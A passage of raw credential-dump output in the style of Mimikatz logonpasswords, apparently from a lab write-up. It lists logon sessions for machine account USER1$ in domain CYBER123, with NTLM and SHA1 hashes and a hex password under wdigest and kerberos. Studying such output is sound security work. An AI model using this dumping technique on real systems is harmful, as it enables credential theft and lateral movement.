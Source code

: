 ```bash
Logon Time        : 10/18/2023 1:45:29 AM
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : USER1$
Domain            : CYBER123
Logon Server      : (null)
Logon Time        : 10/18/2023 1:45:28 AM
SID               : S-1-5-20
	msv :	
	 [00000003] Primary
	 * Username : USER1$
	 * Domain   : CYBER123
	 * NTLM     : 453dd0a2ca72d3c78338a0c5bffa4f4a
	 * SHA1     : e53148cc9e3cf46eb3b19b68acc5a2b20b35fca7
	tspkg :	
	wdigest :	
	 * Username : USER1$
	 * Domain   : CYBER123
	 * Password : fa e0 84 9e 85 e1 b1 69 94 72 8f 8f ec f5 97 2e 82 9e 00 9e 80 0c 7d 73 be f5 f3 60 3f 46 06 b8 17 ab da 05 c9 25 32 5c c3 c8 49 12 c8 ff c7 9e 06 25 d0 cf 0b 8f 18 ac 5c 7c e0 84 ae 7c e6 9b 98 dc 5e 43 b9 1a 79 73 ee bc 14 b1 96 82 de 69 57 13 10 16 5e 6f 63 d8 3d 69 57 1e 3e 4e 05 3e d0 06 38 23 ff 0d 90 bc 17 52 3b 44 c4 d5 07 22 11 76 db 47 4a fe ab 65 40 14 7e d3 ff dd a9 82 c1 2f 11 0b ea c1 8e 12 db dd 9b 37 eb 0b fa 19 09 94 7a 72 33 97 0d 27 04 04 7c 46 06 2c f9 0e cb 57 52 4d 0c d7 e2 6f 48 d6 1b 8f b5 c5 c4 40 a6 5f 3e af 13 b2 61 a5 27 a6 86 ee ad 3a 94 4c 0f 27 e4 3c 50 aa aa 8c 90 51 96 5f 6f 65 93 43 9e af 29 5f a4 5c 08 0a 68 26 95 bd 8c d3 d7 59 8d fc 08 4d 70 92 95 cd 33 ea 9c 51 2a 0e b7 9c 
	kerberos :	
	 * Username : user1$
	 * Domain   : CYBER123.COM
	 * Password : fa e0 84 9e 85 e1 b1 69 94 72 8f 8f ec f5 97 2e 82 9e 00 9e 80 0c 7d 73 be f5 f3 60 3f 46 06 b8 17 ab da 05 c9 25 32 5c c3 c8 49 12 c8 ff c7 9e 06 25 d0 cf 0b 8f 18 ac 5c 7c e0 84 ae 7c e6 9b 98 dc 5e 43 b9 1a 79 73 ee bc 14 b1 96 82 de 69 57 13 10 16 5e 6f 63 d8 3d 69 57 1e 3e 4e 05 3e d0 06 38 23 ff 0d 90 bc 17 52 3b 44 c4 d5 07 22 11 76 db 47 4a fe ab 65 40 14 7e d3 ff dd a9 82 c1 2f 11 0b ea c1 8e 12 db dd 9b 37 eb 0b fa 19 09 94 7a 72 33 97 0d 27 04 04 7c 46 06 2c f9 0e cb 57 52 4d 0c d7 e2 6f 48 d6 1b 8f b5 c5 c4 40 a6 5f 3e af 13 b2 61 a5 27 a6 86 ee ad 3a 94 4c 0f 27 e4 3c 50 aa aa 8c 90 51 96 5f 6f 65 93 43 9e af 29 5f a4 5c 08 0a 68 26 95 bd 8c d3 d7 59 8d fc 08 4d 70 92 95 cd 33 ea 9c 51 2a 0e b7 9c 
	ssp :	
	credman :	

Authentication Id : 0 ; 23567 (00000000:00005c0f)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 10/18/2023 1:45:26 AM
SID               : 
	msv :	
	 [00000003] Primary
```
